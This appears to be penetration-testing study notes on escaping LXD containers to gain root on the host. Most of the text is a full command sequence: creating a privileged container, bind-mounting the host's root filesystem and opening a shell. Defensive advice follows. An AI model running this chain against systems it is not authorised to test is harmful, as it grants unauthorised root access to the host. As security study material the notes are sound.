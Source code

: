 
## LXC Privilege Escalation Techniques

### Check Group Membership

Check if the user is part of the `lxd` group, which may allow container escapes.

```bash
id
```

### List Available LXC Images

View available LXC images for deployment.

```bash
lxc image list
```

### List Available LXD Containers

Check running or existing LXD containers.

```bash
lxc list
```

### Import a Vulnerable LXC Image

Import a vulnerable LXC image for privilege escalation.

```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```

### Initialize a Privileged LXC Container

Create a new privileged container that may allow access to the host.

```bash
lxc init ubuntutemp privesc -c security.privileged=true
```

### Mount the Host's Root Filesystem into the Container

Bind the host's root filesystem inside the container.

```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

### Start the LXC Container

```bash
lxc start privesc
```

### Execute a Shell Inside the Container

Gain access to the container's shell.

```bash
lxc exec privesc /bin/bash
```

### Access the Host's Root Filesystem from Inside the Container

```bash
ls -l /mnt/root
```

### Mount Host Root to a Running Container

If a container is already running, mount the host's root filesystem dynamically.

```bash
lxc config device add <container_name> host-root disk source=/ path=/mnt/root recursive=true
```

### Execute a Shell in an Existing Container

```bash
lxc exec <container_name> /bin/bash
```

### Access the Host Root Filesystem

```bash
ls -l /mnt/root
```

### Check If a Container is Privileged

Determine if a container is running with elevated privileges.

```bash
lxc config show <container_name> | grep security.privileged
```

### List LXD Profiles

View existing LXD profiles that define container configurations.

```bash
lxc profile list
```

### Show the Configuration of a Given LXD Profile

Inspect the configuration of a specific profile.

```bash
lxc profile show <profile_name>
```


### **Key Concepts:**

- **Containers vs. VMs:** You correctly highlighted the difference between OS-level virtualization (containers) and hardware-level virtualization (VMs).
- **LXC/LXD:**
    - LXC: Application containers, sharing the host kernel.
    - LXD: System containers, running a complete OS.
- **Privilege Escalation:** The primary goal is to escape the container and gain root access on the host system.
- **LXD Group:** Membership in the `lxd` or `lxc` group is often a prerequisite for exploiting LXD.
- **Vulnerable Templates:** Pre-existing container templates with weak security configurations (e.g., no passwords, privileged settings) are often the attack vector.
- **`security.privileged=true`:** This is the critical setting that disables container isolation, allowing access to the host.
- **Host Root Mounting:** Mounting the host's root filesystem into the container allows direct access to host files.

### **Exploitation Steps (as described):**

1. **Check Group Membership:** `id`
2. **Locate Vulnerable Templates:** `ls` in relevant directories.
3. **Import the Image:** `lxc image import ubuntu-template.tar.xz --alias ubuntutemp`
4. **List Images:** `lxc image list`
5. **Initialize a Privileged Container:** `lxc init ubuntutemp privesc -c security.privileged=true`
6. **Mount Host Root:** `lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`
7. **Start the Container:** `lxc start privesc`
8. **Execute a Shell:** `lxc exec privesc /bin/bash`
9. **Access Host Files:** `ls -l /mnt/root`

### **Important Considerations and Enhancements:**

- **Security Best Practices:**
    - Avoid using privileged containers unless absolutely necessary.
    - Use strong passwords for container images.
    - Regularly update container images.
    - Implement proper access controls.
    - Use namespaces and cgroups to further isolate containers.
- **Attack Vectors:**
    - Besides vulnerable templates, other attack vectors include exploiting vulnerabilities in the LXD daemon itself or misconfigurations in container profiles.
    - Exploiting mounted volumes that are not the root directory.
- **Capabilities:** Container escape can also happen by abusing linux capabilities.
- **Detection:**
    - Monitor for unusual container activity.
    - Audit container configurations.
    - Use security tools to scan for vulnerabilities.
- **Containerization Security:**
    - Understanding container security is crucial in modern IT environments.
    - Tools like Docker Bench for Security and Lynis can help assess container security.
- **Namespaces:** Reinforce the importance of namespaces in container security.
- **Cgroups:** Reinforce the importance of Cgroups in container security.
- **Real World Examples:** Researching real world container escapes will help solidify understanding of the attack vectors.
- **LXD profiles:** Understanding how LXD profiles work, and how they can be misconfigured is very important.